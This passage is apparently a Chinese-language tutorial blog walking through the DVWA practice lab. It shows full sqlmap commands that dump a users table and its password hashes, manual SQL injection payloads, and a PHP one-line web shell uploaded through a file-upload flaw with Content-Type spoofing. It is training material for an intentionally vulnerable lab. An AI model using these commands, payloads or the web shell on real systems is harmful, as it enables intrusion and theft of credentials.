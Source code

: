 　　剩下的就是什么查表，查数据库，查字段，查属性，获取用户名，主机名等等信息，反正sql命令能做的都能做到。本文章不详细说明人工注入，这里上注入神器sqlmap，还是那句话我也不详细说明sqlmap的具体命令。
　　这里要说明的是sqlmap只能检测一个url是否存在sql注入，而不是给网站的url如www<span></span>.baidu.com。先提交一个1上去后，复制url。
　　![JNnfC4.png](https://s1.ax1x.com/2020/04/22/JNnfC4.png)
　　-u 指定一个可疑存在sql注入的url，因为这个dvwa是需要登录的，所以要加上cookie命令，--dbs是查询有哪些数据库。执行后如图所示查询到的数据库
　　![JNuDiD.png](https://s1.ax1x.com/2020/04/22/JNuDiD.png)
　　查询数据库，表，字段，属性内容如下命令，更多命令请移步<a href="https://www.freebuf.com/sectool/164608.html">超详细SQLMap使用攻略及技巧分享</a>

```
-dbs 查看有哪些数据库
-D 数据库名 --tables 查看当前数据库有哪些表 
-D 数据库名 -T 表名 --columns 查看字段
-D 数据库名 -T 表名 --column --dump 查看当前表内容
```
　　接着继续查询dvwa数据库中有哪些表。
　　输入sqlmap -u "http://<span></span>192.168.2.123/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=ef87119a9e058a4616fd5132529eee34;security=low" -D dvwa --tables
　　![JNK7tO.png](https://s1.ax1x.com/2020/04/22/JNK7tO.png)
　　继续查询users表中有哪些字段，输入sqlmap -u "http://<span></span>192.168.2.123/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=ef87119a9e058a4616fd5132529eee34;security=low" -D dvwa -T users --columns
　　![JNMnEV.png](https://s1.ax1x.com/2020/04/22/JNMnEV.png)
　　最后只需要查询users表中字段的具体内容就完毕了，输入sqlmap -u "http://<span></span>192.168.2.123/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=ef87119a9e058a4616fd5132529eee34;securitwa -T users --columns --dump，因为从结果中大致判断password是md5加密的，所以中间会弹出询问信息，您是否想通过基于字典的攻击来破解它们？我一般直接输入n=no，然后这玩意随便找个md5在线破解。md5是不可逆的，所以这种攻击叫md5撞库解密。
　　![JNQtMj.png](https://s1.ax1x.com/2020/04/22/JNQtMj.png)
　　medium级别，还是直接看代码
　　![JN6wi8.png](https://s1.ax1x.com/2020/04/22/JN6wi8.png)
　　可以看到有一个函数mysql_real_escape_string() ，过滤的字符有\x00、\n、\r、'、"、\x1a
　　这就意味这我们只要输入有'就会被过滤掉，但仔细看sql语句是SELECT first_name, last_name FROM users WHERE user_id = $id，少了两个'$id'，所以还减轻了我们的输入量直接提交1 or 1=2也能成功执行
　　![JN4S41.png](https://s1.ax1x.com/2020/04/22/JN4S41.png)
　　high级别
　　![JUpdu4.png](https://s1.ax1x.com/2020/04/22/JUpdu4.png)
　　前面直接也是用函数过滤，然后执行if(is_numeric($id))，判断输入是不是数字，好了没有sql注入了散了散了。。
### SQL Injection (Blind)
　　sql布尔盲注，返回是布尔类型即逻辑，比如sql整条语句是真，就返回一种结果。是假可能就是宁一种结果。
　　这次直接提交'上去后，发现无任何回显结果，然而在报错注入中给出了报错信息。这也是布尔盲注的一种特性，然后提交1' and 1=1 #
　　![](https://s1.ax1x.com/2020/04/22/JNE3Ps.png)
　　整体提交值被代入，后面构造payload就要用ascii()，len()，char()等等函数，太多了这不是本章的重点，直接跳过
### Upload
　　文件上传漏洞，为啥上传个文件都能成漏洞，这个问题提的不错。上传文件功能或多或少一些网站都有，上传照片，文档基本都是个最基本的功能。不过这只是按照常规的方式去思考问题，安全应该大开脑洞，不应该局限自己的思维，试想如果上传一个木马文件上去会怎么样。直接拿到对方服务器权限了啊，所以这就是文件上传漏洞。
　　low级别，直接上传一个php一句话木马试试。1.php里面内容为<<span></span>?php @eval($_POST['hacker']); ?>
　　![JUERHS.png](https://s1.ax1x.com/2020/04/22/JUERHS.png)
　　看着上面一行英文，请选择一张图片上传，再看看我上传的是php嗯，very good，源码就不看了，因为这部分是我最熟悉的，然而源码却是我最看不懂的部分。。。。
　　medium级别，还是直接像刚刚那样上传php
　　![JUVIaD.png](https://s1.ax1x.com/2020/04/22/JUVIaD.png)
　　文件上传大多数要用抓包工具，还是直接上burp。抓包截断后
　　![JUmeC4.png](https://s1.ax1x.com/2020/04/22/JUmeC4.png)
　　从包头看到了一个MAX_FILE_SIZE还限制了文件大小为100000具体单位暂时不知，重点关注Content-Type，告诉客户端实际返回的内容的内容类型。
　　图中的是Content-Type: application/octet-stream，虽然具体不懂是啥意思，但一看这文件就不是图片，那么是不是可以手动改成图片类型呢，这个问题也问的好，当然可以。这里就介绍mimetype命令。